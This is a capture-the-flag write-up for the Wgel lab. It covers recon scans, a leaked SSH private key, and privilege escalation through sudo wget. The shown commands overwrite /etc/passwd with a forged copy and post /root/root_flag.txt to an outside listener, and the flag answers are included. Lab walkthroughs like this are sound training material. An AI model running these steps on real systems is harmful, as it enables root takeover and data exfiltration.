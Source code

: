 # Wgel CTF

* IP = 10.10.14.183

## Nmap scan report:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Gobuster scan report:
* Initial scan:
```bash
2022/06/21 00:05:23 Starting gobuster
=====================================================
/sitemap (Status: 301)
Progress: 7370 / 87666 (8.41%)
```
* Inside /sitemap scan:
```bash
2022/06/21 00:18:00 Starting gobuster
=====================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/.ssh (Status: 301)
/fonts (Status: 301)

```
* After we navigate to http://IP/sitemap/.ssh, we get an id_rsa file
* Download the private key and mark it only read-write by the user to use it as ssh private key
```bash
chmod 600 id_rsa
```

## Questions/Tasks:

1. User flag:

* In the main page we find some strange comments:<br>
![Screenshot](./1.png)
* Presumably one user is *Jessie*
* SSH into the server using the private key and Jessie as the username
```bash
ssh -i id_rsa jessie@10.10.14.183
```
* Finding the flag file:
```bash
$ find | grep flag
./Documents/user_flag.txt
```

**Ans-057c67131c3d5e42dd5cd3075b198ff6**

2. Root flag:

* To escalate privileges first to check which commands can be run with sudo:
```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```
* Hence we can see wget can be run witsudo as Root
* Search for privilege escalation technique with the help of wget(The Challenge name also suggested that BTW!!😅😅)
  from <a href="https://gtfobins.github.io/">Gtfobins</a>:<br>

Option 1:(forge the /etc/passwd file and upload it to get root shell)
```bash
URL=http://attacker.com/file_to_get
LFILE=file_to_save
wget $URL -O $LFILE

```
* Copy the passwd file to local machine
* add known password hash to the first line of the file(create the hash with following script)
```python
import crypt
crypt.crypt("password")
```
* Launch an http server in the same directory:
```bash
python3 -m http.server
```
* Get the forged passwd file and write it to /etc/passwd:
```bash
sudo wget http://10.4.50.128:8000/passwd -O /etc/passwd
```
* The /etc/passwd gets overwritten
* Escalate to root by:
```bash
su root
```
* Navigate to /root and find the flag:<br>

Option 2:(directly read the file)<br>
```bash
LFILE=file_to_read
wget -i $LFILE
```
```bash
jessie@CorpOne:~$ sudo wget -i /root/root_flag.txt
--2022-06-21 06:17:24--  http://b1b968b37519ad1daa6408188649263d/
Resolving b1b968b37519ad1daa6408188649263d (b1b968b37519ad1daa6408188649263d)... failed: Name or service not known.
wget: unable to resolve host address ‘b1b968b37519ad1daa6408188649263d’
```

Option 3:(Post request to a server that runs locally)
```bash
URL=http://attacker.com/file_to_get
LFILE=file_to_save
sudo wget $URL -O $LFILE
```

* Start a netcat listener at some port
* Post request to local IP:Port
```bash
jessie@CorpOne:~$ sudo wget --post-file /root/root_flag.txt 10.4.50.128:5689
--2022-06-21 06:21:12--  http://10.4.50.128:5689/
Connecting to 10.4.50.128:5689... connected.
HTTP request sent, awaiting response...
```
* Receive the message:
```
→ nc -lnvp 5689
Listening on 0.0.0.0 5689
Connection received on 10.10.14.183 58010
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.4.50.128:5689
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d

```

**Ans-**
```
b1b968b37519ad1daa6408188649263d
```
